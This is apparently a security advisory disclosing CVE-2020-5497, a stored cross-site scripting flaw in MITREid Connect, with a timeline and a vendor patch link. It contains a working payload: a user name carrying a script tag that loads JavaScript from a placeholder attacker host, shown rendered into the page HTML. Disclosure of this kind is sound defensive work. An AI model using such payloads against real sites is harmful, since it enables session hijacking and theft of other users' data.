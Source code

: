 A Cross-Site Scripting issue, CVE-2020-5497, was identified on **MITREid Connect** versions 1.3.3 and earlier due to `userInfoJson` being included in the page unsanitized.

## Vendor Patch

* <https://github.com/mitreid-connect/OpenID-Connect-Java-Spring-Server>

## Timeline

* Identified: 3 Jan 2020
* Initial Developer Contact: 3 Jan 2020
* Issue Disclosed: 3 Jan 2020 - GitHub Issue, 20 Feb 2020 - [Blog post](https://www.securitymetrics.com/blog/MITREid-Connect-cross-site-scripting-CVE-2020-5497)

## Description

A user can modify their name to contain a malicious string like `Test<script src=//$LHOST/openid.js></script>`.  The malicious string is included in the page in multiple places:

~~~{.html}
...
	<!-- use a full user menu and button when not collapsed -->
	<ul class="nav pull-right visible-desktop">

		<li class="dropdown">
			<a id="userButton" class="dropdown-toggle" data-toggle="dropdown" href=""><i class="icon-user icon-white"></i> Test <span class="caret"></span></a>
			<ul class="dropdown-menu pull-right">
				<li><a href="manage/#user/profile" data-toggle="collapse" data-target=".nav-collapse">Test<script src=//$LHOST/openid.js></script></a></li>
				<li class="divider"></li>
				<li><a href="" data-toggle="collapse" data-target=".nav-collapse" class="logoutLink"><i class="icon-remove"></i> Log out</a></li>
			</ul>
		</li>


	</ul>

	<!--  use a simplified user button system when collapsed -->
	<ul class="nav hidden-desktop">

		<li><a href="manage/#user/profile">Test<script src=//$LHOST/openid.js></script></a></li>
		<li class="divider"></li>
		<li><a href="" class="logoutLink"><i class="icon-remove"></i> Log out</a></li>
...
~~~

![](xss.png)

